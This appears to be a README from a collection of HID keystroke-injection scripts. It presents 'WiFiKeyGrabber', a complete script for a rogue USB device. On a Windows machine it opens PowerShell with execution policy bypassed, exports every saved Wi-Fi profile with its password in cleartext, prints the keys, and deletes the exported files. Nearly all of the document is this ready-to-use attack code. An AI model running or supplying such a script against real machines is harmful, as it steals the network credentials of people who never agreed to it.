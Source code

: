 ## Credentials - WiFiKeyGrabber

### Description

WiFiKeyGrabber is a simple HIDScript that show in powershell output the saved Wi-Fi Passwords.

### Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe -nop -exec bypass")
press("ENTER")
delay(1000)
type("netsh wlan export profile key=clear")
press("ENTER")
type("Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table")
press("ENTER")
type("del Wi-Fi*.xml")
press("ENTER")
```
